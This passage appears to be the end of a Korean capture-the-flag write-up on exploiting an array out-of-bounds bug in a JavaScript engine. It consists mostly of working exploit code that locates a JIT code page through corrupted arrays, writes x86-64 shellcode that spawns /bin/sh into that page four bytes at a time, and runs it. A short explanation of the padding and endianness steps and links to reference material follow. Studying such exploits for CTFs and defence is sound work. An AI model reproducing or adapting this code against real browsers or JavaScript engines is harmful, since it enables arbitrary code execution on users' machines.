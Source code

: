 ```javascript
for (var i = 0; i < 3; i++)
	a.pop();

Math.atan(a);
next_array_offset = 5;

for (var i = 0; i < 12; i++)
	get_shell();

jitcode_offset = 0;
for (var i = 0; i < 0x10000; i++)
{
	if (dtoi(a[i]) == parseInt("0x0000015000000161", 16))
	{
		jitcode_offset = i - 2;
		break
	}
}

print ('JIT Addr: ' + hex(dtoi(a[jitcode_offset])))

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

for (var i = 0; i < shellcode.length % 4; i++)
	shellcode += '\x90'

for (var i = 0; i < (shellcode.length / 4); i++)
{
	s = shellcode.substr(i*4, (i*4)+4)

	r =  s[3].charCodeAt() * 0x1000000
	r += s[2].charCodeAt() * 0x10000
	r += s[1].charCodeAt() * 0x100
	r += s[0].charCodeAt() * 0x1

	a[next_array_offset] = itod(dtoi(a[jitcode_offset]) + 4 * i);
	b[0] = itod(r)
}

get_shell();
```



shellcode를 4byte씩 나눠서 넣을건데, 먼저 길이가 4의 배수가 아니면 NOP으로 패딩을 한다. 그 후에 4byte씩 자른 후에 리틀엔디안으로 변경 후 값을 넣는 것이다.



<hr/>

## 레퍼런스

- https://bpsecblog.wordpress.com/2017/04/27/javascript_engine_array_oob/?fbclid=IwAR2sPFa4HXs0NFfF7ek5XlriJPXd2-Ia1DlPDmlvPtwXhWEPKanw0Bu21LE
- https://github.com/allpaca/jsExploit_CTF/blob/master/Firefox%20Exploits%20in%20CTF.pdf
